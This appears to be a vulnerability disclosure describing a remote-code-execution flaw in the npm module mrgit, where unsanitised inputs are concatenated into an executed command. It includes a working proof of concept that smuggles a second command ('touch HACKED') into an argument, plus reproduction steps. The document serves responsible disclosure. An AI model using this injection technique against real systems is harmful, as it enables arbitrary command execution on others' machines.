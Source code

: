 # :bug: Description

The `mrgit` module is vulnerable against `RCE` since some `inputs` are concatenated without sanitization to a `command` that is executed

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const diff = require( 'mrgit/lib/commands/diff' );
diff.execute({arguments:['test; touch HACKED; #'], toolOptions:{packages:'', }, repository:{directory:''}})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i mrgit # Install affected module
git init # Initializes the current directory as *git* dir
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
